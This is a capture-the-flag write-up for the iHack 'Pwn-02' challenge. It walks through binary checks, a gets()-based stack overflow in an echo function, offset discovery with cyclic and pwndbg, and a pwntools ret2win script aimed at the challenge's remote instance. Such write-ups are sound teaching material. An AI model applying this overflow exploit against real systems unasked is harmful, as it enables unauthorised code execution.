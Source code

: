 # Pwn-02

> **Flag Format:** `ihack{MD5}`
> 
> **Remote Instance:** `nc pwn2.ihack.sibersiaga.my 1389`

### Basic File Checks
Perform basic file checks regarding the architecture of the given binary. It is `32-bit`, `LSB`, `statically linked` & `not stripped`. 

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-02]
└─$ file chal_      
chal_: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=5358fac57714ea7cb10bc80150f5e24a113a6bf9, for GNU/Linux 3.2.0, not stripped
```

Perform binary protection checks to get an overall idea on where to start tackling the challenge. `NX enabled` indicating that shellcode injection may not be the intended solution.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-02]
└─$ checksec --file=chal_             
[*] '/home/kali/Desktop/iHack/pwn/pwn-02/chal_'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### Static Analysis
The binary to vulnerable to a Buffer Overflow attack due to the use of deprecated `gets` in the `echo` function. By exploiting this vulnerability, we can overwrite the return address to any function that we control.

```c
void echo(void)

{
  char local_20 [24];
  
  putchar(10);
  puts("Hello There! Im echo bot =) I can say anything you want me to say ");
  putchar(10);
  puts("Enter some text:");
  fflush((FILE *)stdout);
  fflush((FILE *)stdin);
  gets(local_20);
  printf("You entered: %s\n",local_20);
  return;
}
```

There is also another function `ZmxhZ2hlcmUh` that prints out the flag on the remote instance. Since `PIE` is disabled, we can grab the address of this function in `Ghidra`, which is `0804988b`.

```c
void ZmxhZ2hlcmUh(void)

{
  puts("Congratulations! Here is your flag!");
  system("cat flag.txt");
  return;
}
```

To find the buffer limit, we can use the `cyclic` module from `pwntools`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-02]
└─$ cyclic 80            
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
```

```
pwndbg> run
Starting program: /home/kali/Desktop/iHack/pwn/pwn-02/chal_ 
 _______ _______ _______ _______ _______ _______ _______ _______ _______ 
|     /|     /|     /|     /|     /|     /|     /|     /|     /|
| +---+ | +---+ | +---+ | +---+ | +---+ | +---+ | +---+ | +---+ | +---+ |
| |   | | |   | | |   | | |   | | |   | | |   | | |   | | |   | | |   | |
| |I  | | |h  | | |a  | | |c  | | |k  | | |2  | | |0  | | |2  | | |2  | |
|/      |/      |/     |/     |/     |/     |/     |/     |/     |
 _______ _______ _______ _______ _______ _______ _______ _______ _______|
 
Hello There! Im echo bot =) I can say anything you want me to say 

Enter some text:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
You entered: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa

Program received signal SIGSEGV, Segmentation fault.
0x61616169 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────────────────────────────────────────────────
 EAX  0x5e
 EBX  0x61616167 ('gaaa')
 ECX  0x0
 EDX  0x0
 EDI  0x1
 ESI  0x80f1000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
 EBP  0x61616168 ('haaa')
 ESP  0xffffd030 ◂— 'jaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa'
 EIP  0x61616169 ('iaaa')
 
pwndbg> cyclic -l iaaa
32
```

### Solution
We can automate the process using `pwntools` as follows:

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF('./chal_')
rop = ROP(elf)

p = remote('pwn2.ihack.sibersiaga.my', 1389)

def exploit():

    padding = b'A'*32
    ret = (rop.find_gadget(['ret']))[0]
    flag = elf.symbols['ZmxhZ2hlcmUh']

    payload = padding
    payload += p32(ret)
    payload += p32(flag)

    print(p.recvuntil(b':\n'))

    print(payload)
    p.sendline(payload)

    print(p.recvall())

def main():
  exploit()

if __name__ == "__main__":
  main()
```

**Flag:** `ihack{}`
